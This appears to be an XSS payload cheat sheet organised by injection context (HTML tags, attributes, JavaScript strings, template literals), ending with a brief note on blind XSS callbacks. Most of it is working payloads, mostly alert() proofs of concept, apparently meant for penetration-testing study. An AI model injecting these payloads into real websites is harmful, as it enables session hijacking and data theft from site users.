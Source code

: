 ## Cross-site scripting contexts

```
# XSS between HTML tags
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>

# XSS in HTML tag attributes
"><script>alert(document.domain)</script>
# your input cannot break out of the tag -> terminate the attribute value and introduce new attribute
" autofocus onfocus=alert(document.domain) x="
"
<a href="javascript:alert(document.domain)">
# Canonical tag -> you can exploit this behavior using access keys and user interaction on Chrome

# XSS into JavaScript
# Terminating the existing script
<script>
...
var input = 'controllable data here';
...
</script>
</script><img src=1 onerror=alert(document.domain)>
# Breaking out of a JavaScript string (literal, quotes)
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)// # in case ' is blacklisted with backslash
onerror=alert;throw 1 # call functions w/o parentheses
# Making use of HTML-encoding
<a href="#" onclick="... var input='controllable data here'; ...">
&apos;-alert(document.domain)-&apos; # &apos; sequence is an HTML entity representing an apostrophe or single quote
# XSS in JavaScript template literals
# Template literals are encapsulated in backticks, and embedded expressions are identified using the ${...} syntax. 
document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
<script>
...
var input = `controllable data here`;
...
</script>
${alert(document.domain)}
```

## Blind XSS

Similar to Stored XSS but we can't see the payload working against ourselves first.

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.
